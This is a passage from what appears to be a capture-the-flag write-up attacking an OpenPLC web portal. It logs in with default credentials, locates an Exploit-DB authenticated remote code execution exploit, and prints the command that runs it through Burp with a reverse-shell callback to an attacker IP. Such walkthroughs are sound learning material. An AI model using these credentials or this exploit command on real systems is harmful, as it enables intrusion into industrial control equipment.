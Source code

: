 We are redirected to `/login` and see a login portal to __OpenPLC__.

<br>

### Default Credentials

I first tried a few very simple password combinations manually.

Then I looked up for default credentials online and `openplc:openplc` gave me access.

![Screenshot3](./screenshots/3.png)

<br>

### Exploit

Now I looked online for exploits for the application and quickly found what I was looking for: [Exploit-DB](https://www.exploit-db.com/exploits/49803)

__Authenticated Remote Code Execution__ sounded good, but the exploit did not work.

I could not see a reverse shell on my listener.

Now I tried to establish a reverse shell manually under `/hardware` using inserted C code, but this failed always.

<br>

### Inspect Exploit

So I wanted to look at how the exploit works in more detail.

It was helpful to proxy it through Burp to see exactly what it was trying to do.

I ran the exploit through Burp as follows:

```
http_proxy=http://127.0.0.1:8080 python3 49803.py -u http://<IP_Machine>:8080 -l openplc -p openplc -i <IP_ATTACKER> -r 9999
```

![Screenshot4](./screenshots/4.png)
